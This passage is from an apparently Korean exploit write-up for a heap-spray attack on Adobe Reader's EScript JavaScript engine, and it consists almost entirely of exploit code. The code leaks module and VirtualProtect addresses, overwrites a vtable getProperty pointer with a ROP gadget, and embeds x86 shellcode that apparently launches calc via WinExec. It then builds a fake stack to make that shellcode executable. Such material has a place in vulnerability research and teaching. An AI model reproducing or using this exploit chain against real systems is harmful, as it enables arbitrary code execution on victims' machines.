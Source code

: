 - 항상 Fake Stack이 spray된 Heap 영역 (할당된 heap 영역)에 들어가는 것은 아니므로 항상 exploit이 성공하지는 않는다.
    

## 5. Address Leak & Overwrite ⇒ Hijacking Execution Flow

```js
// 1. START Information Leak
// leak the base address of EScript
EScriptModAddr = readUint32(rw, readUint32(rw, StartAddr - 8) + 0xC) - 0x277548;

// leak VirtualProtect address in kernel32.dll used by EScript
VirtualProtectAddr = readUint32(rw, EScriptModAddr + 0x1B0060);

// leak address of vtable
var dataViewObjPtr = rw.getUint32(0xFFFFFFFF + 0x1 - 0x8, true);
var dvShape = readUint32(rw, dataViewObjPtr);
var dvShapeBase = readUint32(rw, dvShape);
var dvShapeBaseClasp = readUint32(rw, dvShapeBase);
// END Information Leak

// 2. Overwrite address of getProperty in vtable to address of ROP gadget
var offset = 0x1050AE;
writeUint32(rw, dvShapeBaseClasp + 0x10, EScriptModAddr + offset);

// 3. Set Shellcode
var shellcode = [0xec83e589, 0x64db3120, 0x8b305b8b, 0x5b8b0c5b, 0x8b1b8b1c, 0x08438b1b, 0x8bfc4589, 0xc3013c58, 0x01785b8b, 0x207b8bc3, 0x7d89c701, 0x244b8bf8, 0x4d89c101, 0x1c538bf4, 0x5589c201, 0x14538bf0, 0xebec5589, 0x8bc03132, 0x7d8bec55, 0x18758bf8, 0x8bfcc931, 0x7d03873c, 0xc18366fc, 0x74a6f308, 0xd0394005, 0x4d8be472, 0xf0558bf4, 0x41048b66, 0x0382048b, 0xbac3fc45, 0x63657878, 0x5208eac1, 0x6e695768, 0x18658945, 0xffffb8e8, 0x51c931ff, 0x78652e68, 0x61636865, 0xe389636c, 0xff535141, 0xb9c931d0, 0x73736501, 0x5108e9c1, 0x6f725068, 0x78456863, 0x65897469, 0xff87e818, 0xd231ffff, 0x00d0ff52];
var shellcodesize = shellcode.length * 4;
// Write Shell Code
for (var i = 0; i < shellcode.length; i++) {
	writeUint32(rw, StartAddr + 0x18 + i * 4, shellcode[i]);
}

// 4. Setup new Stack
var newStackAddr = 0x5D000001;

writeUint32(rw, newStackAddr, VirtualProtectAddr);      // RIP 1
writeUint32(rw, newStackAddr + 0x4, StartAddr + 0x18);  // RIP 2
writeUint32(rw, newStackAddr + 0x8, StartAddr + 0x18);  //  Arg1 : 메모리 시작 주소
writeUint32(rw, newStackAddr + 0xC, shellcodesize);     //  Arg2 : 메모리 크기
writeUint32(rw, newStackAddr + 0x10, 0x40);             //  Arg3 : 메모리 보호 상수 : 0x40 : 실행 권한
writeUint32(rw, newStackAddr + 0x14, StartAddr + 0x14); //  Arg4 : 이전 보호 상수 저장할 포인터

// 5. try to access unknown property
// => call overwritten getProperty(ROP Gadget) in vtable
var foo = rw.execFlowHijack;
```
